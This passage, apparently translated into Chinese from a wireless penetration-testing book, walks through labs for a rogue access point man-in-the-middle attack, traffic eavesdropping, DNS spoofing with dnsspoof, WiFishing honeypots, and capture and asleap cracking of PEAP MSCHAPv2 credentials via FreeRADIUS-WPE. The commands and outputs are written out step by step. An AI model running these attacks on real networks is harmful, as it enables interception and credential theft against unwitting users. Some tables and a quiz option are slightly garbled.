现在我们要开启内核的IP转发功能，以确保路由和包转发能够正常进行，使用的命令如下：
```echo 1 > /proc/sys/net/ipv4/ip_forward```
### 步骤6：连接无线客户端并验证连通性
现在我们将无线客户端连接到我们的mitm接入点，它将通过DHCP（运行在有线侧网关上的服务器）自动获取IP地址。本例中客户端获取到的IP地址为192.168.0.197。我们可以ping有线侧网关192.168.0.1来验证连通性。客户端的IP配置如下：
```C:\Users\vivek\AppData\Local\msf32>ipconfig
Windows IP Configuration

Wireless LAN adapter Wireless Network Connection:

Connection-specific DNS Suffix  . :
Link-local IPv6 Address . . . . . : fe80::693d:fad9:1424:c019%11
IPv4 Address. . . . . . . . . . . : 192.168.0.197
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . : 192.168.0.1
```
### 步骤7：验证网关的ping响应
我们可以看到主机响应了ping请求，示例如下：
```C:\Users\vivek\AppData\Local\msf32>ping 192.168.0.1

Pinging 192.168.0.1 with 32 bytes of data:
Reply from 192.168.0.1: bytes=32 time=11ms TTL=64
Reply from 192.168.0.1: bytes=32 time=6ms TTL=64
Reply from 192.168.0.1: bytes=32 time=18ms TTL=64
Reply from 192.168.0.1: bytes=32 time=8ms TTL=64

Ping statistics for 192.168.0.1:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 5ms, Maximum = 18ms, Average = 10ms
```
### 步骤8：通过airbase-ng终端验证客户端连接
我们还可以通过查看攻击者设备上的airbase-ng终端来确认客户端已连接：
```root@kali:~# airbase-ng --essid mitm -c 11 mon0
12:04:42 Created tap interface at0
12:04:42 Trying to set MTU on at0 to 1500
12:04:42 Access Point with BSSID 80:1F:02:8F:34:D5 started.
Error: Got channel -1, expected a value > 0.
12:04:49 Client 20:10:7A:45:36:61 associated (unencrypted) to ESSID: "mitm"
```
### 步骤9：通过Wireshark抓包验证流量管控
有趣的是，由于所有流量都从无线接口转发到有线侧，我们可以完全掌控这些流量。我们可以通过启动Wireshark并在at0接口上抓包来验证这一点：

| 序号 | 时间 | 源地址 | 目的地址 | 协议 | 信息 |
|---|---|---|---|---|---|
| 117 | 41.173542 | 192.168.0.197 | 224.0.0.252 | LLMNR | Standard query ANY wpd |
| 118 | 41.277900 | fe80::693d:fad9:1424:ff02::1:3 |  | LLMNR | Standard query ANY wpd |
| 119 | 41.284136 | 192.168.0.197 | 224.0.0.252 | LLMNR | Standard query ANY wpd |
| 120 | 41.575233 | 192.168.0.197 | 192.168.0.1 | DNS | Standard query A widgets.afeka.com |
| 121 | 42.167219 | 192.168.0.197 | 192.168.0.1 | DNS | Standard query A wpd |
| 122 | 43.166721 | 192.168.0.197 | 192.168.0.1 | DNS | Standard query ANY wpd |
| 123 | 46.166812 | fe80::693d:fad9:1424:ff02::1:3 |  | LLMNR | Standard query ANY wpd |
| 124 | 46.167704 | 192.168.0.197 | 224.0.0.252 | LLMNR | Standard query ANY wpd |
| 125 | 46.272428 | fe80::693d:fad9:1424:ff02::1:3 |  | LLMNR | Standard query ANY wpd |
| 126 | 46.272750 | 192.168.0.197 | 224.0.0.252 | LLMNR | Standard query ANY wpd |
| 127 | 47.166884 | 192.168.0.197 | 192.168.0.1 | DNS | Standard query ANY wpd |
| 128 | 49.160142 | IntelCor_35:fc:44 | Broadcast | ARP | Who has 192.168.0.1? Tell 192.168.0.197 |
| 129 | 49.170017 | D-Link_d2:8e:25 | IntelCor_35:fc:44 | ARP | 192.168.0.1 is at 00:21:91:d2:8e:25 |
| 130 | 51.178160 | fe80::693d:fad9:1424:ff02::1:3 |  | LLMNR | Standard query ANY wpd |
| 131 | 51.178823 | 192.168.0.197 | 224.0.0.252 | LLMNR | Standard query ANY wpd |
```
```Frame 1: 60 bytes on wire (480 bits), 60 bytes captured (480 bits)
Ethernet II, Src: Apple_44:99:4d (10:9a:dd:44:99:4d), Dst: Broadcast (ff:ff:ff:ff:ff:ff)
    Address Resolution Protocol (request)
```
### 步骤10：验证ICMP流量抓包能力
现在我们从客户端设备ping网关192.168.0.1，我们可以在Wireshark中看到这些数据包（需要应用ICMP显示过滤器），即使这些数据包的目的地不是我们，这就是中间人攻击的威力：

| 序号 | 时间 | 源地址 | 目的地址 | 协议 | 信息 |
|---|---|---|---|---|---|
| 1 | 0.000000 | IntelCor_35:fc:44 | Broadcast | ARP | Who has 192.168.0.1? Tell 192.168.0.197 |
| 2 | 0.000773 | D-Link_d2:8e:25 | IntelCor_35:fc:44 | ARP | 192.168.0.1 is at 00:21:91:d2:8e:25 |
| 3 | 0.006021 | 192.168.0.197 | 192.168.0.1 | ICMP | Echo (ping) request (id=0x0001, seq(be/le)=63/21248, ttl=128) |
| 4 | 0.006577 | 192.168.0.1 | 192.168.0.197 | ICMP | Echo (ping) reply (id=0x0001, seq(be/le)=63/21248, ttl=64) |
| 5 | 1.001865 | 192.168.0.197 | 192.168.0.1 | ICMP | Echo (ping) request (id=0x0001, seq(be/le)=84/21504, ttl=128) |
| 6 | 1.002774 | 192.168.0.1 | 192.168.0.197 | ICMP | Echo (ping) reply (id=0x0001, seq(be/le)=84/21504, ttl=64) |
| 7 | 2.014760 | 192.168.0.197 | 192.168.0.1 | ICMP | Echo (ping) request (id=0x0001, seq(be/le)=85/21760, ttl=128) |
| 8 | 2.015576 | 192.168.0.1 | 192.168.0.197 | ICMP | Echo (ping) reply (id=0x0001, seq(be/le)=85/21760, ttl=64) |
| 9 | 3.003974 | 192.168.0.197 | 192.168.0.1 | ICMP | Echo (ping) request (id=0x0001, seq(be/le)=86/22016, ttl=128) |
| 10 | 3.004503 | 192.168.0.1 | 192.168.0.197 | ICMP | Echo (ping) reply (id=0x0001, seq(be/le)=86/22016, ttl=64) |
```
```Frame 4: 74 bytes on wire (592 bits), 74 bytes captured (502 bits)
Ethernet II, Src: D-Link_d2:8e:25 (00:21:91:d2:8e:25), Dst: IntelCor_35:fc:44 (00:22:fb:35:fc:44)
    Internet Protocol, Src: 192.168.0.1 (192.168.0.1), Dst: 192.168.0.197 (192.168.0.197)
    Internet Control Message Protocol
        Type: 0 (Echo (ping) reply)
        Code: 0
        Checksum: 0x5508 [correct]
        Identifier: 0x0001
        Sequence number: 83 (0x0053)
        Sequence number (LE): 21248 (0x5300)
        Data (32 bytes)
        Data: 6162636465666768696a6b6d6e6f7071727374757677... [Length: 32]
        000000  00 22 fb 35 fc 44 00 21 91 d2 8e 25 08...
        000010  45 00 00 40 00 01 15 00 40 01 a8 cb...
        000020  00 c0 00 55 08 00 01 00 53 61 62 63...
        000030  64 65 66 67 68 69 6a 6b 6c 6d 6e 6f 70 71 72
```
我们已成功完成无线中间人攻击环境的搭建，具体操作是创建了虚假接入点，并将其与我们的有线网络网桥相接。


这确保了任何连接到伪造接入点的无线客户端都会认为自己是通过有线局域网连接到互联网的。我们已将无线接口与有线接口桥接。正如我们之前提到的，这是中间人攻击（MITM）的一种可能连接架构。此外还有其他可行的组合方式。其中一种有趣的方案是使用两块无线接口：一块用于创建伪造接入点，另一块连接到合法接入点，这两块接口会被桥接在一起。因此，当无线客户端连接到我们的伪造接入点时，它会通过攻击者的设备连接到合法接入点。请注意，该配置要求攻击者的笔记本电脑上使用两块无线网卡。你可以测试一下，用笔记本自带的内置网卡加上外置网卡是否能够实施这种攻击——要记住，你可能没有开展此类活动所需的注入驱动程序。这将是个不错的挑战！

### 利用中间人攻击进行无线窃听
在上一个实验中，我们学习了如何搭建中间人攻击环境。现在，我们将了解如何利用该环境开展无线窃听。整个实验围绕一个核心原理展开：此时受害者的所有流量都会通过攻击者的电脑转发。因此，攻击者可以窃听受害者设备发送和接收的所有流量。请按照以下步骤开始操作：
- 1. 完全复刻上一个实验中的全部配置。启动Wireshark。有趣的是，此时连MITM网桥也会出现在列表中。如果需要的话，我们可以通过这个接口查看网桥中的流量：
- 2. 在at0接口上开始抓包，这样我们就可以监控无线客户端发送和接收的所有流量：
- 3. 在无线客户端上打开任意网页。在我的环境中，无线接入点也连接到了局域网，我会用地址http://192.168.0.1打开它：
- 4. 使用你的用户名和密码登录，进入管理界面。
- 5. 在Wireshark中，我们应该能看到大量活动：
- 6. 设置http过滤器，仅查看网页流量：
- 7. 我们可以轻松定位到用于向无线接入点发送密码的HTTP POST请求：
- 8. 接下来是上一个数据包的放大视图：
```
Frame 208: 502 bytes on wire (4016 bits), 502 bytes captured (4016 bits)
Ethernet II, Src: IntelCor_35:fc:44 (00:22:fb:35:fc:44), Dst: D-Link_d2:8e:25 (00:21:91:d2:8e:25)
Internet Protocol, Src: 192.168.0.197 (192.168.0.197), Dst: 192.168.0.1 (192.168.0.1)
Transmission Control Protocol, Src Port: 49472 (49472), Dst Port: http (80), Seq: 396, Ack: 18904, Len: 448
Hypertext Transfer Protocol GET /post_login.xml?hash=94e7e8f5c474c69258308d9ce76ceb2634b417d5 HTTP/1.1
[Expert Info (Chat/Sequence): GET /post_login.xml?hash=94e7e8f5c474c69258308d9ce76ceb2634b417d5 HTTP/1.1\r\n]
Request Method: GET
Request URI: /post_login.xml?hash=94e7e8f5c474c69258308d9ce76ceb2634b417d5
Request Version: HTTP/1.1
Host: 192.168.0.1\r\n
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.0; en-US; rv:1.9.2.15) Gecko/20110303 Firefox/3.6.15 (.NET CLR 3.5.30729)\r\n
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n
Accept-Language: en-us,en;q=0.5\r\n
Accept-Encoding: gzip,deflate\r\n
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7\r\n
Keep-Alive: 115\r\n
Connection: keep-alive\r\n
```
- 9. 展开HTTP头部后，我们发现实际输入的明文密码并没有原样发送，而是发送了一个哈希值。如果我们查看上一页截图中标记为64号的数据包，就能看到发出了一个请求获取/md5.js，这让我们怀疑它是对密码生成的MD5哈希值。有趣的是，如果生成哈希值时没有为每个会话使用加密盐值，这种技术可能会受到重放攻击。需要特别说明的是，MD5哈希破解不属于无线安全的范畴，也不在本书的讨论范围内。
- 10. 这说明了在中间人攻击中，监控和窃听客户端发送的流量是多么容易。我们搭建的中间人攻击环境现在可以让我们在受害者毫不知情的情况下窃听其无线流量。之所以能够实现这一点，是因为在中间人攻击中，所有流量都会通过攻击者的设备转发。因此，攻击者可以窃听受害者所有未加密的流量。

### 无线会话劫持
在中间人攻击的基础上，另一种有趣的攻击是应用层会话劫持。在中间人攻击过程中，受害者的数据包会被发送到攻击者设备。此时攻击者需要负责将这些数据包转发到合法目的地，同时将目的地的响应转发给受害者。有趣的是，在这个过程中，攻击者可以修改数据包中的内容（如果数据包未加密且没有防篡改保护）。这意味着攻击者可以对数据包进行修改、篡改，甚至悄无声息地丢弃数据包。我们将利用搭建好的中间人攻击环境，了解如何进行无线DNS劫持。随后，我们将通过DNS劫持，将浏览器会话劫持到[谷歌官网](https://www.google.com)。
- 1. 完全按照中间人攻击实验的步骤配置测试环境。在受害者设备上，启动浏览器并输入https://www.google.com。我们使用Wireshark监控这些流量，你的屏幕应该会显示如下内容：

| 序号 | 时间 | 源地址 | 目的地址 | 协议 | 信息 |
|:---:|:---:|:---|:---|:---|:---|
| 1 | 0.000000 | IntelCor_35:fc:44 | 广播 | ARP | 谁是192.168.0.1？请告诉192.168.0.197 |
| 2 | 0.000603 | D-Link_d2:8e:25 | IntelCor_35:fc:44 | ARP | 192.168.0.1的MAC地址是00:21:91:d2:8e:25 |
| 3 | 0.005758 | 192.168.0.197 | 192.168.0.1 | DNS | 标准A类查询google.com |
| 4 | 1.001276 | 192.168.0.197 | 192.168.0.1 | DNS | 标准A类查询google.com |
| 5 | 2.000004 | 192.168.0.197 | 192.168.0.1 | DNS | 标准A类查询google.com |
| 6 | 3.415114 | D-Link_d2:8e:25 | 广播 | ARP | 谁是192.168.0.198？请告诉192.168.0.1 |
| 7 | 3.999838 | 192.168.0.197 | 192.168.0.1 | DNS | 标准A类查询google.com |
| 8 | 7.999001 | 192.168.0.197 | 192.168.0.1 | DNS | 标准A类查询google.com |
| 9 | 8.720771 | 192.168.0.197 | 192.168.0.1 | DNS | 标准ANY类查询wpad |
| 10 | 9.719183 | 192.168.0.197 | 192.168.0.1 | DNS | 标准ANY类查询wpad |
| 11 | 10.719577 | 192.168.0.197 | 192.168.0.1 | DNS | 标准ANY类查询wpad |

- 2. 为Wireshark设置DNS过滤器，如我们所见，受害者正在向[谷歌官网](https://www.google.com)发送DNS请求：
- 3. 要劫持浏览器会话，我们需要发送伪造的DNS响应，将https://www.google.com的IP地址解析为攻击者设备的IP地址192.168.0.199。我们将使用的工具叫做dnsspoof，其语法如下：
```
dnsspoof -i mitm-bridge
dnsspoof: listening on mitm-bridge [udp dns port 53 and not src 192.168.0.199]
```
- 4. 刷新浏览器窗口，现在我们可以通过Wireshark看到，一旦受害者向任意主机（包括google.com）发出DNS请求，**Dnsspoof**就会立即回复：
- 5. 在受害者设备上，我们会看到一条提示**无法连接**的错误。这是因为我们将google.com的IP地址设置为了192.168.0.199，也就是攻击者设备的IP，但该设备上没有服务在监听80端口：


- 6. 让我们使用以下命令在Kali上启动Apache：
``` service apache2 start ```
- 7. 现在，一旦我们刷新受害者设备上的浏览器，就会看到Apache默认的**It Works!**页面：

- 8. 本次演示展示了如何拦截数据并发送伪造响应，以劫持受害者设备上的会话。我们以无线中间人攻击（MITM）为基础实施了一次应用劫持攻击。那么背后发生了什么？中间人攻击的设置确保了我们能够看到受害者发送的所有数据包。一旦我们检测到来自受害者的DNS请求数据包，运行在攻击者笔记本电脑上的Dnsspoof程序就会向受害者发送一条DNS响应，其中使用攻击者机器的IP地址替代了google.com的IP地址。受害者设备接受了这条响应，浏览器随后向攻击者IP地址的80端口发送了HTTP请求。在实验的第一部分，攻击者机器的80端口上没有运行监听进程，因此Firefox返回了错误。随后，当我们在攻击者机器的80端口（默认端口）上启动Apache服务器后，浏览器的请求便收到了来自攻击者机器的响应，内容为默认的**It Works!**页面。本次实验告诉我们，一旦我们完全控制下层（本例中为第2层），就很容易劫持运行在上层的应用，例如DNS客户端和网页浏览器。

### 查找客户端的安全配置
在前面的章节中，我们已经了解了如何为开放、WEP保护、WPA保护的接入点创建蜜罐，但当我们身处现场，看到客户端发送的探测请求时，我们如何知道被探测的SSID属于哪个网络呢？虽然这起初看起来很难，但问题的解决方法很简单。我们需要同时创建多个广播相同SSID、但安全配置不同的接入点。当漫游客户端搜索网络时，会根据其存储的网络配置自动连接到其中一个接入点。那么，我们开始吧！
- 1. 我们假设无线客户端上配置了名为Wireless Lab的网络，且当它未连接到任何接入点时，会主动发送针对该网络的探测请求。为了查找该网络的安全配置，我们需要创建多个接入点。本次讨论中，我们假设客户端配置文件是开放网络、WEP保护、WPA-PSK或WPA2-PSK中的一种，这意味着我们需要创建4个接入点。为此，我们将多次使用`airmon-ng start wlan0`命令，首先创建4个虚拟接口——mon0到mon3：
```root@kali:~# airmon-ng start wlan0
Found 3 processes that could cause trouble. If airodump-ng, aireplay-ng or airtun-ng stops working after a short period of time, you may want to kill (some of) them!
-e PID Name
2902 NetworkManager
3201 wpa_supplicant
3213 dhclient
Process with PID 4114 (airbase-ng) is running on interface mon0
Interface Chipset Driver
wlan0 Ralink RT2870/3070 rt2800usb - [phy0] (monitor mode enabled on mon2)
mon0 Ralink RT2870/3070 rt2800usb - [phy0]
mon1 Ralink RT2870/3070 rt2800usb - [phy0]
mon2 Ralink RT2870/3070 rt2800usb - [phy0]```
- 2. 你可以使用`ifconfig -a`命令查看所有新创建的接口：
```mon0 -00 Link encap:UNSPEC HWaddr 80-1F-02-8F-34-D5-00-00-00-00-00-00-00-00-00
UP BROADCAST NOTRAILERS RUNNING PROMISC ALLMULTI MTU:1800 Metric:1
RX packets:20394 errors:0 dropped:337 overruns:0 frame:0
TX packets:0 errors:0 dropped:0 overruns:0 carrier:0 collisions:0 txqueuelen:1000
RX bytes:2800142 (2.6 MiB) TX bytes:0 (0.0 B)
mon1 -00 Link encap:UNSPEC HWaddr 80-1F-02-8F-34-D5-00-00-00-00-00-00-00-00-00
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
RX packets:1956 errors:0 dropped:0 overruns:0 frame:0
TX packets:0 errors:0 dropped:0 overruns:0 carrier:0 collisions:0 txqueuelen:1000
RX bytes:356424 (348.0 KiB) TX bytes:0 (0.0 B)
mon2 -00 Link encap:UNSPEC HWaddr 80-1F-02-8F-34-D5-00-00-00-00-00-00-00-00-00
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
RX packets:1772 errors:0 dropped:0 overruns:0 frame:0
TX packets:0 errors:0 dropped:0 overruns:0 carrier:0 collisions:0 txqueuelen:1000
RX bytes:317018 (309.5 KiB) TX bytes:0 (0.0 B)
mon3 -00 Link encap:UNSPEC HWaddr 80-1F-02-8F-34-D5-00-00-00-00-00-00-00-00-00
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
RX packets:412 errors:0 dropped:0 overruns:0 frame:0
TX packets:0 errors:0 dropped:0 overruns:0 carrier:0 collisions:0 txqueuelen:1000
RX bytes:40134 (39.1 KiB) TX bytes:0 (0.0 B)```
- 3. 现在我们将在mon0上创建开放接入点：
```root@kali:~# airbase-ng --essid "Wireless Lab" -a AA:AA:AA:AA:AA:AA -c 3 mon0
For information, no action required: Using gettimeofday() instead of /dev/rtc
12:10:20 Created tap interface at1
12:10:20 Trying to set MTU on at1 to 1500
12:10:20 Access Point with BSSID AA:AA:AA:AA:AA started.```
- 4. 让我们在mon1上创建WEP保护的接入点：
```root@kali:~# airbase-ng --essid "Wireless Lab" -a BB:BB:BB:BB:BB:BB -W 1 mon1
For information, no action required: Using gettimeofday() instead of /dev/rtc
12:11:26 Created tap interface at2
12:11:26 Trying to set MTU on at2 to 1500
ti_set_mac failed: Cannot assign requested address
You most probably want to set the MAC of your TAP interface.
ifconfig <iface> hw ether BB:BB:BB:BB:BB:BB
12:11:26 Access Point with BSSID BB:BB:BB:BB:BB:BB started.```
- 5. WPA-PSK接入点将在mon2上：
```root@kali:~# airbase-ng --essid "Wireless Lab" -c 3 -a CC:CC:CC:CC:CC:CC -W 1 -z 2 mon2
For information, no action required: Using gettimeofday() instead of /dev/rtc
12:13:07 Created tap interface at3
12:13:07 Trying to set MTU on at3 to 1500
12:13:07 Access Point with BSSID CC:CC:CC:CC:CC:CC started.```
- 6. WPA2-PSK接入点将在mon3上：
```root@kali:~# airbase-ng --essid "Wireless Lab" -c 3 -a DD:DD:DD:DD:DD:DD -W 1 -Z 2 mon3
For information, no action required: Using gettimeofday() instead of /dev/rtc
12:13:54 Created tap interface at4
12:13:54 Trying to set MTU on at4 to 1500
12:13:54 Trying to set MTU on mon3 to 1800
ti_set_mac failed: Cannot assign requested address
You most probably want to set the MAC of your TAP interface.
ifconfig <iface> hw ether DD:DD:DD:DD:DD:DD
12:13:54 Access Point with BSSID DD:DD:DD:DD:DD:DD started.```
- 7. 我们可以在同一信道上运行airodump-ng，以确保四个接入点都正常运行，如下面的截图所示：
| BSSID | 功率 | 信标帧数 | 数据包数/秒 | 信道 | 速率 | 加密方式 | 加密算法 | 认证方式 | SSID |
|--------------------|-----|---------|-----------|----|-----|------|--------|------|-----------------|
| 00:0B:3B:7C:D0:8D | -93 | 3 | 0 | 0 | 6 | 54 | WPA2 | CCMP | PSK | 楼下 |
| DD:DD:DD:DD:DD:DD | 0 | 35 | 0 | 0 | 3 | 54 | WPA2 | TKIP | PSK | Wireless Lab |
| BB:BB:BB:BB:BB:BB | 0 | 35 | 0 | 0 | 255 | 54 | WEP | WEP | -- | Wireless Lab |
| CC:CC:CC:CC:CC:CC | 0 | 35 | 0 | 0 | 3 | 54 | WPA2 | TKIP | PSK | Wireless Lab |
| 80:1F:02:8F:34:D5 | 0 | 80 | 0 | 0 | 11 | 54 | OPN | | | mitm |
| AA:AA:AA:AA:AA:AA | 0 | 79 | 0 | 0 | 3 | 54 | OPN | | | Wireless Lab |
| 9C:D3:6D:2A:7B:C0 | -81 | 3 | 0 | 0 | 11 | 54 | WPA2 | CCMP | PSK | everythingwill |
| 00:22:B0:62:6D:08 | -88 | 4 | 4 | 0 | 1 | 54 | WPA | TKIP | PSK | 楼上 |
- 8. 现在让我们切换漫游客户端的Wi-Fi。根据你之前将它连接到的Wireless Lab网络的不同，它会连接到对应的安全配置的网络。在我的案例中，它连接到了WPA2-PSK网络，如下面的截图所示：
```root@kali:~# airbase-ng --essid "Wireless Lab" -a AA:AA:AA:AA:AA:AA -c 3 mon0
For information, no action required: Using gettimeofday() instead of /dev/rtc
12:10:20 Created tap interface at1
12:10:20 Trying to set MTU on at1 to 1500
12:10:20 Access Point with BSSID AA:AA:AA:AA:AA:AA started.
Error: Got channel -1, expected a value > 0.
12:10:41 Client 20:10:7A:45:36:61 associated (unencrypted) to ESSID: "Wireless Lab"
12:10:41 Client 20:10:7A:45:36:61 associated (unencrypted) to ESSID: "Wireless Lab"
12:10:41 Client 20:10:7A:45:36:61 associated (unencrypted) to ESSID: "Wireless Lab"```


我们创建了多个SSID相同但安全配置不同的蜜罐。具体连接到哪个蜜罐，取决于客户端为“无线实验”网络存储的是哪项配置。这项技术非常实用，因为在执行渗透测试时，你很难知晓客户端笔记本上存储了哪些安全配置。通过给客户端设置诱饵，你就能找到对应的配置。这项技术也被称为**WiFishing**。你可以为同一个SSID在客户端上设置不同的安全配置，进而检验你部署的这套蜜罐能否检测到它们。需要注意的一点是，许多Wi-Fi客户端不会主动探测其配置文件中存储过的网络，因此我们此前讨论的技术可能无法检测到这类网络。

### 测验——高级无线攻击
Q1. 在中间人（MITM）攻击中，谁处于中间位置？
- 1. 接入点
- 2. 攻击者
- 3. 受害者
- 4. 以上都不对

Q2. DNS欺骗（Dnsspoof）：
- 1. 伪造DNS请求
- 2. 伪造DNS响应
- 3. 需要在DNS服务器上运行
- 4. 需要在接入点上运行

Q3. 无线中间人攻击可以部署在：
- 1. 所有无线客户端上同时进行
- 2. 同一时间仅能在一个信道上进行
- 3. 任意SSID上
- 4. 3和4都正确

Q4. 在我们的中间人攻击部署中，距离受害者最近的接口是？
- 1. At0
- 2. Eth0
- 3. Br0
- 4. En0

### 总结
在本章中，我们学习了如何以无线网络为基础开展高级攻击。我们搭建了无线中间人攻击环境，并利用该环境窃听了受害者的流量。之后，我们使用同一套环境，通过DNS污染攻击劫持了受害者的应用层（具体为网页流量）。在下一章中，我们将学习如何开展无线渗透测试，涵盖从规划、侦察、攻击到报告撰写的全流程。我们还会介绍保护WLAN的最佳实践。

## 第8章：攻击WPA-Enterprise与RADIUS
WPA-Enterprise一直给人一种坚不可摧的印象。大多数网络管理员将其视为解决所有无线安全问题的万能方案。在本章中，我们会看到这种认知大错特错。在本章中，我们将学习如何使用Kali中提供的不同工具和技术攻击WPA-Enterprise。本章将涵盖以下主题：
- 搭建FreeRADIUS-WPE
- 攻击Windows客户端上的PEAP
- 企业安全最佳实践

### 搭建FreeRADIUS-WPE
实施WPA-Enterprise攻击需要一台RADIUS服务器。最常用的开源RADIUS服务器是FreeRADIUS。然而，搭建FreeRADIUS难度较高，且每次攻击前配置相关参数的过程也很繁琐。Kali默认不预装FreeRADIUS-WPE，因此你需要执行以下步骤来搭建FreeRADIUS-WPE：
1. 访问 [freeradius-wpe的GitHub仓库](https://github.com/brad-anton/freeradius-wpe)，你可以在该页面找到下载链接：[freeradius-server-wpe_2.1.12-1_i386.deb安装包下载地址](https://github.com/brad-anton/freeradius-wpe/raw/master/freeradius-server-wpe_2.1.12-1_i386.deb)
2. 下载完成后，依次执行`dpkg -i freeradius-server-wpe_2.1.12-1_i386.deb`和`ldconfig`命令完成安装：
``` root@kali:~# dpkg -i freeradius-server-wpe_2.1.12-1_i386.deb Selecting previously unselected package freeradius-server-wpe. (Reading database ... 345364 files and directories currently installed.) Unpacking freeradius-server-wpe (from freeradius-server-wpe_2.1.12-1_i386.deb) .. Setting up freeradius-server-wpe (2.1.12-1) ... Processing triggers for man-db ... ```
现在我们来快速在Kali上搭建RADIUS服务器：
3. 将接入点的LAN口之一连接到运行Kali的设备的以太网口。在本例中，对应接口为eth0。启用该接口并通过运行DHCP获取IP地址，具体操作如以下截图所示：
``` root@kali:~# dhclient eth0 Reloading /etc/samba/smb.conf: smbd only. RTNETLINK answers: File exists root@kali:~# ping 192.168.1.1 PING 192.168.1.1 (192.168.1.1) 56(84) bytes of data. 64 bytes from 192.168.1.1: icmp_req=1 ttl=128 time=0.992 ms 64 bytes from 192.168.1.1: icmp_req=2 ttl=128 time=0.820 ms ^C --- 192.168.1.1 ping statistics --- 2 packets transmitted, 2 received, 0% packet loss, time 1001ms rtt min/avg/max/mdev = 0.820/0.906/0.992/0.086 ms root@kali:~# ```
4. 登录接入点，将安全模式设置为WPA/WPA2-Enterprise，将**版本**设为WPA2，**加密方式**设为AES。随后在EAP（802.1x）设置区域中，将**RADIUS服务器IP**填写为你的Kali设备的IP地址，**RADIUS密码**设置为test，具体操作如以下截图所示：
5. 现在打开一个新的终端，进入`/usr/local/etc/raddb`目录，该目录下存放了所有FreeRADIUS-WPE的配置文件：
``` root@kali:/usr/local/etc/raddb# ls acct_users clients.conf ldap.attrmap sites-available attrs dictionary modules sites-enabled attrs.access_challenge eap.conf policy.conf sql attrs.access_reject example.pl policy.txt attrs.accounting_response experimental.conf preproxy_users sql.conf attrs.pre-proxy hints proxy.conf sqlippool.conf certs huntgroups radiusd.conf templates.conf ```
6. 打开`eap.conf`文件，你会发现`default_eap_type`命令默认设置为MD5，我们将其修改为peap：
``` default_eap_type = peap ```
7. 打开`clients.conf`文件，该文件用于定义可以连接我们RADIUS服务器的允许客户端列表。有趣的是，如果你滚动到文件底部，忽略示例配置，会发现网段192.168.0.0/16下的客户端默认密码为test，这正是我们在第2步中使用的配置：
``` GNU nano 2.2.6 File: clients.conf # Un-comment this section, and edit a "listen" section to add: # "clients = per_socket_clients". That IP address/port combination # will then accept ONLY the clients listed in this section. # #per_socket_clients { # client 192.168.3.4 { # secret = testing123 # } #} client 192.168.0.0/16 { secret = test shortname = testAP } ```
8. 现在我们可以通过执行`radiusd -s -X`命令启动RADIUS服务器了：
``` root@kali:~# radiusd -s -X ```
9. 执行该命令后，你会看到屏幕上输出大量调试信息，但最终服务器会稳定下来并开始监听请求。太棒了！现在我们已经准备好开始本章的实验操作了：
``` # root@kali: ~ File Edit View Search Terminal Help ```
``` listen { type = "acct" ipaddr = * port = 0 } ```
``` listen { type = "control" listen { socket = "/usr/local/var/run/radiusd/radiusd.sock" } } ```
``` listen { type = "auth" ipaddr = 127.0.0.1 port = 18120 } ```
``` ... adding new socket proxy address * port 45609 Listening on authentication address * port 1812 Listening on accounting address * port 1813 Listening on command file /usr/local/var/run/radiusd/radiusd.sock Listening on authentication address 127.0.0.1 port 18120 as server inner-tunnel Listening on proxy address * port 1814 Ready to process requests. ```

### 攻击PEAP
受保护的可扩展认证协议（PEAP）是当前应用最广泛的EAP版本，也是Windows系统原生内置的EAP机制。PEAP有两个版本：
- 搭配EAP-MSCHAPv2的PEAPv0（该版本因Windows原生支持而应用最广）
- 搭配EAP-GTC的PEAPv1
PEAP通过服务端证书验证RADIUS服务器的身份。几乎所有针对PEAP的攻击都利用了证书验证环节的配置错误。接下来我们将了解当客户端关闭证书验证时，如何破解PEAP。请按照以下指示开始操作：
1. 再次检查`eap.conf`文件，确保PEAP已启用：

2. 随后执行`radiusd -s -X`命令重启RADIUS服务器：

3. 我们监控FreeRADIUS-WPE创建的日志文件：
```root@kali:/usr/local/var/log/radius# tail -f freeradius-server-wpe.log ```
4. Windows原生支持PEAP。我们需确保已关闭证书验证：
5. 我们需要点击**安全密码**旁边的**配置**选项卡，并告知Windows不要自动使用我们的Windows登录名和密码：
6. 我们还需要在**高级设置**对话框中强制选择**用户身份验证**：
7. 客户端一旦连接到接入点，就会提示输入**用户名**和**密码**。我们使用Monster作为用户名，abcdefghi作为密码：
8. 我们完成上述操作后，便可在日志文件中看到MSCHAP-v2质询响应出现：
```root@kali:/usr/local/var/log/radius# tail -f freeradius-server-wpe.log response: 66:b4:f6:06:7c:a9:bd:c1:41:f9:aa:1f:3f:e8:7e:fe:c1:75:1d:bf:88 :b8:80:48 john NETNTLM: blah:$NETNTLM$0db46a6aea953dfa$66b4f6067ca9bdc141f9aa1f3fe 87efecf751dbf88b88048 mschap: Thu Nov 20 13:22:53 2014 username: Monster challenge: fe:94:f3:d9:9b:13:54:b9 response: db:68:44:c6:7b:6d:f8:05:b2:1c:86:2f:0a:18:3b:d0:13:e0:21:00:f1 :69:17:fc john NETNTLM: Monster:$NETNTLM$fe94f3d99b1354b9$db6844c67b6df805b21c862f 0a183bd013e02100f16917fc ```
9. 现在我们使用asleap工具，配合包含密码"abcdefghi"的密码字典文件来破解该响应，成功破解出了密码！（本次演示中我们仅创建了一个名为list的单行文件，其中存放了该密码）：
```root@kali:/usr/local/var/log/radius# asleap -C fe:94:f3:d9:9b:13:54:b9 -R db:68: 44:c6:7b:6d:f8:05:b2:1c:86:2f:0a:18:3b:d0:13:e0:21:00:f1:69:17:fc -W list asleap 2.2 - actively recover LEAP/PPTP passwords. <jwight@hasborg.com> Using wordlist mode with "list". hash bytes: 9052 NT hash: e18614f7c6811f043fbf54205e929052 password: abcdefghi ```

